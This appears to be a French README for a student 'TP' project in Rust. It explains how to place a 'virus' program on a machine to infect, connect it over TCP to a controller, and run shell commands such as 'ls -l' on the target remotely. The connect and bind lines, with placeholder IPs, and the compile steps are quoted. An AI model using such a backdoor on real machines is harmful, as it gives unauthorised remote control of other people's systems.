 # RustVirusTP

# Instalation
Pour mettre en place ce projet, vous devez déposer le fichier virus.rs sur la machine à infecter. Il est important de récupérer l'ip de cette machine et de la préciser dans le fichier, sur la ligne:
match TcpStream::connect("Mettre ip ici")
Puis, placez le fichier virusControl.rs sur votre machine et mettez l'ip de la machine ciblé dans:
let listener = TcpListener::bind("Mettre ip ici").unwrap();

#Execution
Afin d'executer le code, sur la machine locale, executer la commande:
rustc virusControl.rs
Dans le dossier contenant le code source du serveur, puis executez:
./virusControl

Puis, faite de même sur la machine à infecter:
rustc virus.rs
./virus

Si tout c'est bien passé, les deux consoles vous auront confirmé la connection, et vous pourrez rentrer du texte dans la console du serveur (virusControl). Seuls les commandes simple ont été testés, tel que ls -l. Pour quiter le serveur, rentrez "quit".